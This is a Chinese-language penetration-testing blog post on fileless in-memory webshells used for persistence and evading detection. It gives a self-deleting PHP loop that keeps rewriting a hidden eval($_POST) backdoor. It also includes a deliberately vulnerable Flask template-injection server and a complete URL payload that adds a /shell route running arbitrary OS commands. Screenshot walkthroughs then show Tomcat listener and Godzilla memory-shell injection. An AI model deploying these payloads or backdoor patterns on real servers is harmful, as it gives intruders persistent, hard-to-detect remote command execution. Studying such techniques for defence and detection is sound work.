 ```yaml
---
title: day17-权限维持篇-web-内存马
date: 2024-03-21 23:13 +0800
comments: true
categories: [内网,权限维持] 
tags: [横向移动,Linux]
img_path: /img/penetration/
---
```


## 0x00前言

Webshell内存马，是在内存中写入恶意后门和木马并执行，达到远程控制Web服务器的一类内存马，其瞄准了企业的对外窗口：网站、应用。但传统的Webshell都是基于文件类型的，黑客可以利用上传工具或网站漏洞植入木马，区别在于Webshell内存马是无文件马，利用中间件的进程执行某些恶意代码，不会有文件落地，给检测带来巨大难度。 

内存webshell相比于常规webshell更容易躲避传统安全监测设备的检测，通常被用来做持久化，规避检测，持续驻留目标服务器。==无文件攻击、内存Webshell、进程注入等基于内存的攻击手段也受到了大多数攻击者青睐。==

再次之后可能会详细的介绍有关于webshell内存马的文章！！！

## 0x01 php内存马

对于php来说，实际上不算是比较存粹的内存马。在php中最主要的是写入一个php文件使其能够达到删除不掉的地步，也就是不断的生成文件，详情参考下面的代码：

```php
set_time_limit()函数: 设置允许脚本运行的时间，单位为秒（如果设置该运行时间，sleep()函数在执行程序时的持续时间将会被忽略掉）
ignore_user_abort()函数: 函数设置与客户机断开是否会终止脚本的执行（如果设置为True，则忽略与用户的断开）
unlink(FILE)函数: 删除文件（防止文件落地被检测工具查杀）
file_put_contents函数: 将一个字符串写入该文件中
usleep函数: 延迟执行当前脚本数微秒，即条件竞争
```

```php
<?php
ignore_user_abort(true);
set_time_limit(0);
@unlink(__FILE__);
$file = '.yuan.php';
$code = '<?php @eval($_POST[\'c\']); ?>';
while (1){
    file_put_contents($file,$code);
    usleep(5000);
}
?>
```

效果如下：

![截图](0187b66d9b9b1c7e753a423b18b4b7a9.png)

此时，就会发现我们一直无法删除这个文件了！！！ 除非重启。

> php这里是有文件显示的！

## 0x02 python

python这里则是基于`flask`的模板注入;

首先，启动`flask`的模板：

```python
from flask import Flask,request
from flask import render_template_string
app = Flask(__name__)

@app.route('/')
def hello_world():
    return 'Hello World'


@app.route('/test',methods=['GET', 'POST'])
def test():
    template = '''
        <div class="center-content error">
            <h1>Oops! That page doesn't exist.</h1>
            <h3>%s</h3>
        </div> 
    ''' %(request.values.get('param'))

    return render_template_string(template)


if __name__ == '__main__':
    app.run(port=8000)   
```

```cmd
python flaskSstiServer.py
```

此时，注入内存马的参数：

```python
url_for.__globals__['__builtins__']['eval'](
    "app.add_url_rule(
        '/shell', 
        'shell', 
        lambda :__import__('os').popen(_request_ctx_stack.top.request.args.get('cmd', 'whoami')).read()
    )",
    {
        '_request_ctx_stack':url_for.__globals__['_request_ctx_stack'],
        'app':url_for.__globals__['current_app']
    }
)
```
```text
 {% raw %}
 http://127.0.0.1:8000/test?param={{url_for.__globals__[%27__builtins__%27][%27eval%27](%22app.add_url_rule(%27/shell%27,%20%27shell%27,%20lambda%20:__import__(%27os%27).popen(_request_ctx_stack.top.request.args.get(%27cmd%27,%20%27whoami%27)).read())%22,{%27_request_ctx_stack%27:url_for.__globals__[%27_request_ctx_stack%27],%27app%27:url_for.__globals__[%27current_app%27]})}}
 {% endraw %}
```

![截图](b49db16c1ce2bfec32874e1c785a6b83.png)

此时，访问shell地址即可！

![截图](4fef440a66495272472f7d37374cb35e.png)

从这里我们也可以看见，我们当前目录下面是没有任何文件的，但是我们依然可以访问并执行命令！

## 0x03 java

利用文件上传注入内存马。环境是tomact9和jdk11 ！

#### 搭建环境

配置tomcat请参考：https://blog.csdn.net/qq_29493173/article/details/110304388

在IntelliJ IDEA中配置Tomcat：https://blog.csdn.net/Wxy971122/article/details/123508532

> 如果TOMCAT启动提示NB: JAVA_HOME should point to a JDK not a JRE解决
>
> https://blog.csdn.net/caozhongyan/article/details/6602759
>
> 如果ide没有tomcat：
>
> https://blog.csdn.net/u010459738/article/details/109612997

#### 内存马种类介绍

1、按攻击思路，大致分为：

-Java Instrumentation类（Agent型）

-Servlet-api类（Servlet型、Filter型、Listener型）

-Spring类（Controller型、Interceptor型）

2、按注入的对象分为：tomcat、weblogic、shiro等类型。

#### 演示

首先，我们来看看`listener`类型的内存马：

![截图](ca93ec0be4e4eee3b70d54d4c33cbabe.png)

然后我们可以在tomcat的根目录下看到该文件已经被上传成功！！

![截图](f6687749946d3f7e67cbad362c31f524.png)

由于此时，该文件还没被执行，因此还没有注入内存马，此时我们访问一些不存在的页面（带参数）时候是不会成功的！

![截图](47f313dcabce667f57aeb7f1e1e25916.png)

那么接下来，让我们访问一下该内存马：

![截图](9abc2fb97c9f664dee6f6132230f76db.png)

会弹出计算器，然后此时由于已经注入到内存中，只要我们输入的参数包含了`cmd`的话就会被监控到并执行相应的效果：（~~即使该页面不存在）~~

![截图](7820326805dcb4da1edcebc0dcc0f114.png)

#### 哥斯拉注入演示

首先，生成一个木马并上传：

![截图](516a79df551bed204f4912ad0f1da154.png)

然后建立连接并访问：（注意这里的访问路径要写入对应的上传地址）

![截图](f2e0b34128c6196ac13d671a0178fbfb.png)

此时，我们连接`1.jsp`是可以的：

![截图](c44189042cca1e17d70fb68cf76ef335.png)

然后，我们利用此进行注入：

![截图](f563436b255aec034f94aaf3cb49581f.png)

这里，当我们不点击run时候，我们无论如何是也连接不进去的（而且`.ico`也是个图片）

![截图](7be38268e2fb87264718205aea5ec067.png)

然后我们点击run：

![截图](f0ef6883dded01c141c0b1243164d6fa.png)

就发现成功了！！

此时，我们即使把之前的`1.jsp`删了，我们的内存马也可以连接：

![截图](f23d1a178ab84e1fad99381527943ef1.png)

![截图](6f0424bc0911e24d55a0563f5a888717.png)

而且在根目录下面也是没有文件的：

![截图](903ad7079e1fb3d98e27420f4bdc408a.png)
